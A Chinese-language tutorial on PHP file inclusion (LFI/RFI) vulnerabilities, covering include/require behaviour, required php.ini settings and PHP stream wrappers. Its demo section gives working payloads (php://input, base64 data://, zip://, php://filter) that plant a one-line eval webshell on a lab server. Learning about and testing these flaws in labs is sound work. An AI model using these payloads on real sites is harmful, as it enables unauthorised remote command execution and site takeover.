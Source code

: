 # 文件包含漏洞

## 原理

文件包含漏洞：即 file inclusion，意思是文件包含，是指当服务器开启`allow_url_include`选项时，就可以通过PHP的某些特性函数（include()，require()和include_once()，requir_once()）利用URL去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了PHP配置中的allow_url_fopen选项，选项开启之后，服务器允许包含一个远程文件，服务器通过PHP特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到自己的目的。

- 1、文件包含即程序通过包含函数调用本地或远程文件，以此来实现拓展功能
- 2、被包含的文件可以是各种文件格式，而当文件里面包含恶意代码，则会形成远程命令执行或文件上传漏洞。
- 3、文件包含漏洞主要发生在有包含语句的环境中，例如PHP所具备include、require等函数。

## 分类

> 本地文件包含LFI（local file include）当被包含的文件在服务器本地时，就形成本地文件包含  
> 远程文件包含RFI（remote file include）当被包含的文件在第三方服务器时，叫做远程文件包含。

## PHP文件包含的函数

> include( )  
> 当使用该函数包含文件时，只有代码执行到 include()函数时才将文件包含  
> 进来，发生错误时之给出一个警告，继续向下执行。
> 
> include_once( )  
> 功能与 Include()相同，区别在于当重复调用同一文件时，程序只调用一次
> 
> require( )require()与 include()的区别在于 require()执行如果发生错误，函数会输出  
> 错误信息，并终止脚本的运行。
> 
> require_once( )  
> 功能与 require()相同，区别在于当重复调用同一文件时，程序只调用一次

远程文件包含漏洞

> 当包含的文件在远程服务器上时，就形成了远程文件包含  
> 远程文件包含的注意点：  
> 1). 需要php.ini中allow_url_include = on以及allow_url_fopen=on  
> 2). 所包含远程服务器的文件后缀不能与目标服务器语言相同。(比如目标服务器是php脚本语言解析的，  
> 那么包含的远程服务器文件后缀不能是php)

## 伪协议

> data:text/plain 或 data:text/plain;base64  
> php://input  
> php://filter  
> file://  
> zip://

**payload**

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=;
include('php://input’);include('php://filter/read=convert.base64-encode/resource=test.php');//用于读取源码
zip://2.zip%232.php
```

## 演示

本演示为通过伪协议获取webshell  
测试的PHP文件  
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020082018335259.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

### php://input 伪协议

使用burpsuite抓包再改包  
Payload: `http://192.168.232.128/file.php?a=php://input`  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183446410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

更改请求方式为post  
post过去的代码为

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]);?>');?>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183454503.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

再发包即可生成一个shell.php文件，然后使用蚁剑连接  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183500566.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

### data://text/plain 伪协议

将木马使用base64编码

```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]);?>');?>
```

编码之后

> PD9QSFAgZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4nKTs/Pg==

Payload:

```php
http://192.168.232.128/file.php?a=data://text/plain;base64,PD9QSFAgZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4nKTs/Pg==
```

使用该payload即可在网站根目录下生成shell.php文件，然后蚁剑连接  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200820183727569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjc5MzU4,size_16,color_FFFFFF,t_70#pic_center)

### zip:// 伪协议

创建一个zip压缩包，里面含有带木马的PHP文件

```php
Payload：http://192.168.232.128/file.php?a=zip://2.zip%232.php
```

其余步骤与data伪协议一样
